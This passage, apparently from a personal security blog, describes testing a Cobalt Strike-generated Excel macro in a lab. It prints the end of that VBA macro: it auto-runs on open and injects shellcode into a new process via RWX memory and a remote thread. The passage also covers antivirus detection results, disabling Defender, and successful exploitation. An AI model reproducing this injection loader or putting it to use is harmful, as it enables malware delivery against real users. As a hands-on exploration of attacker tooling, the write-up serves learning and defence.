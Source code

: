 ```vb

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

[**VirusTotal Report**](https://www.virustotal.com/gui/file/b34401bb9834a33d7234a33fe7becf8002a557ed595b5664ba95cdfaa061f919/detection)

15 of 59 antivirus programs capable of processing macro-loaded Excel files reported malicious activity from the script above, including Microsoft Defender. Thus, I will likely have to turn off Microsoft Defender to run the macro. Avast's YARA Rule contributions specifically identified the maco as originating from Cobalt Strike.

I found the absence of my IP address within the code particularly interesting. I assume it can be reconstructed from the obfuscated code by using the values in `myArray` since a plain address would be easy to find and flag as malicious. I have censored my IP in screenshots thus far — if you can reconstruct it from that array, please [send me an email](mailto:contact@swlacy.com?subject=Playing%20With%20Cobalt%20Strike%20IP%20Address). I would love to know!

### Execution

Here comes the fun part: let's test the functionality of the macro. The software specifications of the Windows victim can be seen in the screenshot below. *Sidenote: I find it disturbing that links to TikTok, mobile games, and Roblox are included in the Start Menu even in Azure images. What a nightmare.*

![Screenshot of Cobalt Strike MS Office Macro Generator](/media/playing-with-cobalt-strike-5.png)

Microsoft Defender immediately quarantined my Excel file upon saving it with the macro — annoying for my purposes, but a good thing nonetheless. However, many businesses do not remain vigilant when considering malware mitigation processes such as updating antivirus signatures, so the code generated by Cobalt Strike still poses a serious threat.

![Screenshot of Cobalt Strike MS Office Macro Generator](/media/playing-with-cobalt-strike-6.png)

Disabling Defender allowed me to proceed, and... Exploitation was successful! From here, a variety of options were available, including the ability to upload files, attempt privilege escalation, and more. Fascinating stuff. Unfortunately, not all features worked as expected, but I am not sure if this is due to a misconfiguration on my part or whether some of the exploits Cobalt Strike attempted have been patched by Microsoft.
